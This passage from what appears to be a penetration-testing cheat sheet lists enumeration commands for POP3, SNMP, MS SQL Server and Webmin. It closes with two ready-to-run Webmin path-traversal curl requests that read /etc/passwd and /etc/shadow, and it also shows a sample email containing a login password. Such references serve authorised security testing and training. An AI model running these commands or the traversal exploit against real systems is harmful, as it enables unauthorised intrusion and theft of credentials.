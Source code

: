          +OK 2 1807
         1 786
         2 1021

         retr 1

         +OK Message follows
         From: jamesbrown@motown.com
         Dear Billy Dean,

         Here is your login for remote desktop ... try not to forget it this time!
         username: billydean
         password: PA$$W0RD!Z

*   SNMP Enumeration -Simple Network Management Protocol

    *   Fix SNMP output values so they are human readable  
        `apt-get install snmp-mibs-downloader download-mibs` `echo "" > /etc/snmp/snmp.conf`

    *   SNMP Enumeration Commands

        *   `snmpcheck -t $ip -c public`

        *   `snmpwalk -c public -v1 $ip 1|`

        *   `grep hrSWRunName|cut -d\* \* -f`

        *   `snmpenum -t $ip`

        *   `onesixtyone -c names -i hosts`

    *   SNMPv3 Enumeration  
        `nmap -sV -p 161 --script=snmp-info $ip/24`

    *   Automate the username enumeration process for SNMPv3:  
        `apt-get install snmp snmp-mibs-downloader` `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`

    *   SNMP Default Credentials  
        /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt

*   MS SQL Server Enumeration

    *   Nmap Information Gathering

        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

*   Webmin and miniserv/0.01 Enumeration - Port 10000

    Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

    Test to see if webmin is running as root by grabbing /etc/shadow

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`
